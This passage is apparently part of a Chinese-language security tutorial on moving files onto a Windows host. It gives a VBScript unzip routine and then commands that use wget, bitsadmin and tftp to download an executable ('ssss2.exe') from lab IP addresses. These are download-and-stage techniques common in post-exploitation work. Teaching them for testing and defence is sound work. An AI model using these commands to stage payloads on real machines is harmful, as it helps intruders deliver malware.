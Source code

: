 **vbs实现解压缩：**

以下代码保存为.vbs文件：

```
UnZip "C:\test\update\wget.zip","C:\test\update\wget\"
Sub UnZip(ByVal myZipFile, ByVal myTargetDir)
    Set fso = CreateObject("Scripting.FileSystemObject")
    If NOT fso.FileExists(myZipFile) Then
        Exit Sub
    ElseIf fso.GetExtensionName(myZipFile) <> "zip" Then
        Exit Sub
    ElseIf NOT fso.FolderExists(myTargetDir) Then
        fso.CreateFolder(myTargetDir)
    End If
    Set objShell = CreateObject("Shell.Application")
    Set objSource = objShell.NameSpace(myZipFile)
    Set objFolderItem = objSource.Items()
    Set objTarget = objShell.NameSpace(myTargetDir)
    intOptions = 256
    objTarget.CopyHere objFolderItem, intOptions
End Sub

```

> 代码来自于[http://demon.tw/programming/vbs-unzip-file.html](http://demon.tw/programming/vbs-unzip-file.html)

成功解压缩后就可通过wget.exe来传输文件

```
C:\test\update\wget\wget.exe http://192.168.174.145/ssss2.exe

```

如图

![Alt text](http://drops.javaweb.org/uploads/images/1dfc7e27c22dffa1d4ca5334d24116866764e7d5.jpg)

### 2、ftfp

思路同上，先通过bitsadmin下载tftp.exe，然后利用tftp传输文件

```
bitsadmin /transfer n http://www.winagents.com/downloads/tftp.exe C:\test\update\tftp.exe

```

下载成功后利用tftp传输文件：

```
tftp -i 192.168.174.151 GET tftp\ssss2.exe C:\test\update\ssss2.exe

```

**注：**  
默认防火墙会拦截

